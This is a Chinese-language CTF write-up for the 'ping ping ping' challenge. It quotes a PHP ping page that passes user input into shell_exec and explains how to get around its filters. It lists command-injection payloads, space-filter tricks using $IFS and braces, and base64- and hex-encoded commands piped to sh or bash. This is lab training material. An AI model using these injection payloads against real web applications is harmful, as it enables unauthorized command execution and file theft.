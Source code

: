 # ping ping ping

<https://www.nssctf.cn/problem/1096>

[waf绕过](https://blog.csdn.net/weixin_50464560/article/details/120926097)

[一些绕过姿势](https://blog.csdn.net/weixin_39190897/article/details/116247765)

这题是直接放在linux环境的, 所以可以远程执行;过滤了一些东西, 比如, eval/system()/cat等等

所以直接 127.0.0.1;ls

扫到了flag;

cat%20flag.php

然后发现了空格的url编码%20也被过滤了

用$IFS$1绕过空格过滤

过滤了flag

读取index.php

```php
<!--?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\
-->
|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo " ";
  print_r($a);
}
?>

```

\x{00} 到 \x{20}：这表示从十六进制 00 到 20 的所有字符，对应于 ASCII 表中的控制字符，从 NULL (\0, 即 \x{00}) 到 SPACE ( ，即 \x{20})。

## linux各种参数的意思

; 前面的命令执行完以后，继续执行后面的命令

| 管道符，将上一条命令的输出作为下一条命令的参数（显示后面的执行结果）

|| 当前面的命令执行出错时（为假）执行后面的命令

& 将任务置于后台执行

&& 前面的语句为假则直接出错，后面的也不执行，前面只能为真

## 绕过空格过滤

```bash
${IFS}$9
{IFS}
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
IFS
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能，需要用{}括起来
%20   (space)
%09   (tab)
X=$'cat\x09./flag.php';$X       （\x09表示tab，也可以用\x20）
```

## playload

```md
?ip=127.0.0.1;x=g;cat$IFS$1fla$x.php
```

```md 内联执行, 将反引号的内容当作结果执行;
?ip=127.0.0.1;cat$IFS$9`ls`
```

```md base64编码
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh  // cat flag.php
```

```md hex,十六进制
?ip=127.0.0.1;echo$IFS$163617420666c61672e706870|xxd$IFS$1-r$IFS$1-p|sh
```

```zsh 类似的绕过
cat fl*  用*匹配任意 
cat fla* 用*匹配任意
ca\t fla\g.php        反斜线绕过
ca\t%09fla|g.php
cat fl''ag.php        两个单引号绕过
echo "Y2F0IGZsYWcucGhw" | base64 -d | bash      // cat flag.php
//base64编码绕过(引号可以去掉)  |(管道符) 会把前一个命令的输出作为后一个命令的参数

echo "63617420666c61672e706870" | xxd -r -p | bash       
//hex编码绕过(引号可以去掉)

echo "63617420666c61672e706870" | xxd -r -p | sh     
//sh的效果和bash一样

cat fl[a]g.php       用[]匹配

a=fl;b=ag;cat $a$b          变量替换
cp fla{g.php,G}    把flag.php复制为flaG
ca${21}t a.txt     利用空变量  使用$*和$@，$x(x 代表 1-9),${x}(x>=10)(小于 10 也是可以的) 因为在没有传参的情况下，上面的特殊变量都是为空的 

nl

```

cp [选项] 源 目标